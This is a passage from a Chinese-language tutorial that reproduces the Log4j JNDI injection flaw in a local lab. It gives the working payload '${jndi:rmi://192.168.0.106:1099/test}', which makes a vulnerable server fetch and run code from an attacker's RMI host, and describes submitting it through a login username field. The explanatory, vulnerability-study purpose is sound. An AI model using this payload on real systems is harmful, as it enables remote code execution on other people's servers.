 RmiServer主要模拟的是在骇客本地运行的RMI进程，而且在log4j-all模块中`io.binghe.log4j.rmi`包下的RmiObj类和RmiServer都是在骇客本地的代码。

RmiServer类中的代码也是比较简单的，就是按照常规模式发了一个RMI服务。需要注意的是，在RmiServer类中使用Reference类加载了RmiObj类的代码，并且将RMI服务发布在1099端口上，路径是`/test`。

### 启动重现漏洞程序

（1）运行`io.binghe.log4j.rmi.RmiServer`类的main()方法骇客本地的RMI服务，启动后输出的日志信息如下所示。

```bash
RMI Listener 1099 port
```

（2）回到模拟远程站点的`io.binghe.log4j.Log4jDemo`代码，将其中的str字符串变量修改成如下所示。

```java
String str = "${jndi:rmi://192.168.0.106:1099/test}";
```

其中，`jndi:rmi://192.168.0.106:1099/test`就是利用Log4j的JNDI技术连接远程RMI服务，其中的`192.168.0.106`表示我本机的IP地址，1099是启动RMI服务监听的端口号，test是发布RMI服务的根目录。

（3）启动`io.binghe.log4j.Log4jDemo`类的main()方法，输出了如下的日志信息。

```bash
执行代码
11:38:22.380 [main] INFO  io.binghe.log4j.Log4jDemo - 输出的信息是:${jndi:rmi://192.168.0.106:1099/test}
```

可以看到，在模拟远程站点的Log4jDemo输出的日志中，不仅打印除了Log4j的日志，还打印了在模拟骇客本地RMI服务的`io.binghe.log4j.rmi.RmiObj`类中的代码。

这意味着什么呢？意味着在远程服务器上执行了骇客本地的程序，而骇客是可以在自己本地的`io.binghe.log4j.rmi.RmiObj`类的静态代码块中写任意代码的，是不是很恐怖，这确实是Log4j的一个重大漏洞。

### 漏洞具体场景分析

说到这里，可能有小伙伴不太理解上述代码的执行逻辑。这里，我给大家举一个具体场景的示例。

（1）一名骇客在自己的本地电脑或者自己的服务器上编写了RmiObj类和RmiServer类，并且在RmiObj类的静态代码块中写了很多破坏远程服务器的代码，比如木马程序、病毒程序、后门程序，死循环等等。在本地电脑或者自己的服务器上启动了RmiServer类来启动一个RMI服务，而RmiServer启动时会加载RmiObj类，如下所示。

![2022-05-30-004](https://binghe001.github.io/assets/images/hack/log4j/2022-05-30-004.png)

（2）在远程站点的Web登录页面中的用户名文本框中输入了字符串`${jndi:rmi://192.168.0.106:1099/test}`，当前具体的IP地址和端口号以及RMI服务的根路径根据骇客的具体情况调整。点击登录按钮后模拟登录操作，就会将用户名`${jndi:rmi://192.168.0.106:1099/test}`和乱写的密码发送到远程站点的后台。

![2022-05-30-005](https://binghe001.github.io/assets/images/hack/log4j/2022-05-30-005.png)

如果远程站点的后台在接收到用户名`${jndi:rmi://192.168.0.106:1099/test}`和乱写的密码后，在没有做参数校验的情况下，直接利用Log4j按照如下方式，打印传递过来的用户名和密码。

```bash
String username = request.getParameter("username");
String password = request.getParameter("password");
logger.info("用户名为：{}, 密码为:{}", username, password);
```

此时就会触发Log4j的重大漏洞，在远程站点的服务器上执行骇客本地RmiObj类中的static静态代码块中编写的破坏服务器的代码。相信此时远程站点的服务器就会凉凉了。

至此，我们分析完log4j-all模块了。

